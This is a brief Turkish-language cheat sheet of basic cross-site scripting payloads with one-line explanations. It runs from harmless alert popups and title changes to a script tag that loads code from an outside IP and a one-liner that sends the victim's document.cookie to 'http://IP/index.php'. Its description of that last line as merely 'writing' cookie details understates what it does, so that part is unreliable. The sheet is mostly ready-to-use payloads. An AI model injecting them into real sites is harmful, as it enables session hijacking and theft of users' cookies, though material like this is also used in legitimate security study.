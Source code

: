 # Temel XSS kodları ve açıklamaları


    <script>alert(1)</script>
bir pop-up çıkartır ve bildirim olarak 1 yazar.


    <script>alert(window.origin)</script>
sayfanın URL’sini ekrana yazdırır.


    <script>alert(document.cookie)</script>,
cookieleri yazdırır.


    <script>document.body.style.background = "#141d2b"</script>
arkaplan rengini değiştirir.


    <script>document.title = 'Kerem Bollu'</script>
Sitenin başlığını değiştirir.


    <script src="http://IP/script.js"></script>
Dışardan dosya yükler.


    <script>new Image().src='http://IP/index.php?c='+document.cookie</script>
Çerez ayrıntılarını yazar.
